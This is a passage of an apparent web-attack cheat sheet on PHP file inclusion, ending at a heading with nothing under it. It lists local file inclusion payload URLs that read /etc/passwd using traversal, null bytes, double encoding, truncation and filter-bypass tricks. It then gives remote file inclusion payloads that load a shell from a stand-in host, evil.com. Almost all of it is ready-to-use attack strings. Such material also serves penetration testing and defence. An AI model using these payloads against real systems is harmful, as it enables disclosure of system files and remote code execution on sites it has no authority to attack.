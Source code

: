 ```
http://example.com/index.php?page=../../../etc/passwd%00
```

#### Double encoding

```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

#### Path and dot truncation

On most PHP installations a filename longer than 4096 bytes will be cut off so any excess chars will be thrown away.

```
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE]
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

##### Filter bypass tricks

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc
```

***

## Remote File Inclusion (RFI)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)

Most of the filter bypasses from LFI section can be reused for RFI.

```
http://example.com/index.php?page=http://evil.com/shell.txt
```

### Null byte

```
http://example.com/index.php?page=http://evil.com/shell.txt%00
```

### Double encoding

```
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### Bypass allow_url_include
